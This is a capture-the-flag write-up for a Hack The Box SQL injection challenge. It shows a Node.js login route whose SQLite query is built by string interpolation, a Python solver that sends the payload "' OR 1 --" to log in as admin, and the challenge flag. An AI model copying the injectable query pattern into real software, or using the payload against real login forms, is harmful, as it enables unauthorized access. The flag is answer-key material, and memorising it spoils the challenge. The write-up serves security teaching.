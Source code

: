 # [__Potent Quotes__](#)

### Description:
* We think our agency's login panel application might be vulnerable. Agent, could you assess the security of the website, and help us prevent malicious actors from gaining access to our confidential information?

### Objective:
* SQL injection

### Difficulty:
* `very easy`

### Flag:
* `HTB{sql_injecting_my_way_in}`

### Challenge:

<p align='center'>
  <img src='assets/preview.png'>
</p>

Looking at the router path on [`routes/index.js`](challenge/routes/index.js), we see the following:
* `/` redirecting to `/login`
* `/login` accepting `GET` to return the view, and `POST` to process the login functionality
* `/register` accepting `GET` to return the view, and `POST` to process the registration functionality

```javascript
router.get('/', (req, res) => {
	return res.redirect('/login');
});

router.get('/login', (req, res) => {
	return res.sendFile(path.resolve('views/login.html'));
});

router.post('/login', (req, res) => {

    let { username, password } = req.body;

    if (username && password) {
        return db.login(username, password)
            .then(user => {
                
                if (user == 'admin') {
                    return res.send(response(fs.readFileSync('/app/flag').toString()))
                };

                if (!user) {
                    return res.send(response('This record does not exist'))
                };
                return res.send(response('You are not admin'));
            })
            .catch(() => res.send(response('Something went wrong')));
    }
    
    return re.send(response('Missing parameters'));
});

router.get('/register', (req, res) => {
	return res.sendFile(path.resolve('views/register.html'));
});

router.post('/register', (req, res) => {

	let { username, password } = req.body;

	if (username && password) {
		return db.register(username, password)
			.then(()  => res.send(response('Successfully registered')))
			.catch(() => res.send(response('Something went wrong')));
	}

	return res.send(response('Missing parameters'));
});	
```

On [`database.js`](challenge/database.js):
* the `connect()` method attaches to the database file that is passed as a constructor argument
* the `migrate()` method populates the database structure
* the `register()` method registers new users
* the `login()` method return the `username` field in the fetched row, if there isn't one it returns `false`, this method is susceptible to SQLi because of the lack of parametrization while constructing the query

```javascript
class Database {
    constructor(db_file) {
        this.db_file = db_file;
        this.db = undefined;
    }
    
    async connect() {
        this.db = await sqlite.open(this.db_file);
    }

    async migrate() {
        return this.db.exec(`
            DROP TABLE IF EXISTS users;

            CREATE TABLE IF NOT EXISTS users (
                id         INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT,
                username   VARCHAR(255) NOT NULL UNIQUE,
                password   VARCHAR(255) NOT NULL
            );

            INSERT INTO users (username, password) VALUES ('admin', '${ crypto.randomBytes(32).toString('hex') }');
        `);
    }

    async register(user, pass) {
        return new Promise(async (resolve, reject) => {
            try {
                let smt = await this.db.prepare(`INSERT INTO users (username, password) VALUES (?, ?)`);
                resolve((await smt.run(user, pass)));
            } catch(e) {
                reject(e);
            }
        });
    }

    async login(user, pass) {
        return new Promise(async (resolve, reject) => {
            try {
                let query = `SELECT username FROM users WHERE username = '${user}' and password = '${pass}'`;
                let row = await this.db.get(query);
                resolve(row !== undefined ? row.username : false);
            } catch(e) {
                reject(e);
            }
        });
    }
}

module.exports = Database;
```

On the `login` route we see that if we log in as `admin`, we'll be presented with the flag, but the `migrate()` method populates the `users` table with a random `32 byte` value as the password for the `admin` user. We'll utilise SQLi to be logged in as `admin` and retrieve the flag.

```javascript
router.post('/login', (req, res) => {

	let { username, password } = req.body;

	if (username && password) {
		return db.login(username, password)
			.then(user => {
                
				if (user == 'admin') {
                    return res.send(response(fs.readFileSync('/app/flag').toString()))
                };

				if (!user) {
                    return res.send(response('This record does not exist'))
                };
				return res.send(response('You are not admin'));
			})
			.catch(() => res.send(response('Something went wrong')));
	}
	
	return re.send(response('Missing parameters'));
});
```

### Solver:

```python
import requests

host, port = 'localhost', 1337
HOST = 'http://%s:%d/' % (host, port)

r = requests.post(HOST + 'login', data={'username': "' OR 1 --", 'password': 'a'})
print(r.text)
```
